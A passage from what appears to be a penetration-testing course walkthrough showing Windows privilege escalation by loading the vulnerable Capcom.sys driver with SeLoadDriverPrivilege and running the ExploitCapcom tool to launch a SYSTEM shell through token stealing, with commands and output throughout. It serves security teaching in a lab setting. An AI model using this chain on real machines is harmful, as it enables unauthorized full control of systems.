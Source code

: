 ### Verify Driver is not Loaded

Using Nirsoft's [DriverView.exe](http://www.nirsoft.net/utils/driverview.html), we can verify that the Capcom.sys driver is not loaded.

```powershell
PS C:\> .\DriverView.exe /stext drivers.txt
PS C:\> cat drivers.txt | Select-String -pattern Capcom
```

### Verify Privilege is Enabled

Run the `EnableSeLoadDriverPrivilege.exe` binary.

```cmd-session
C:\> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

### Verify Capcom Driver is Listed

Next, verify that the Capcom driver is now listed.

```powershell
PS C:\> .\DriverView.exe /stext drivers.txt
PS C:\> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

### Use ExploitCapcom Tool to Escalate Privileges

To exploit the Capcom.sys, we can use the [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) tool after compiling with it Visual Studio.

```powershell
PS C:\> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```
